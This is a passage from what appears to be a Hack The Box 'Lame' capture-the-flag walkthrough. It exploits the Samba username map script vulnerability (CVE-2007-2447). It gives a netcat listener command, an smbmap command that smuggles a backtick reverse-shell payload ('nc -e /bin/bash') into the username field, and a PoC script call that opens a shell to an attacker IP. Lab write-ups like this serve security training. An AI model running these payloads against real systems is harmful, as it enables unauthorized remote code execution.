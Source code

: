 Because port 6200 is not open, then we don't have a backdoor in Lame server.

### CVE-2007-2447

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)

<a href='https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation' target="blank">Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution</a>. The payload execute command \` in the username.

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 4444
```

Get reverse shell

```bash
smbmap -u '/=`nc -e /bin/bash 10.10.14.4 4444`' -H 10.10.10.3

python3 samba_rce_CVE-2007-2447.py 10.10.10.3 'nc -nv 10.10.14.5 443 -e /bin/sh'
```

=== "smb command"

	![](images/5.png)

=== "samba_rce_CVE-2007-2447.py"

	![](images/6.png)
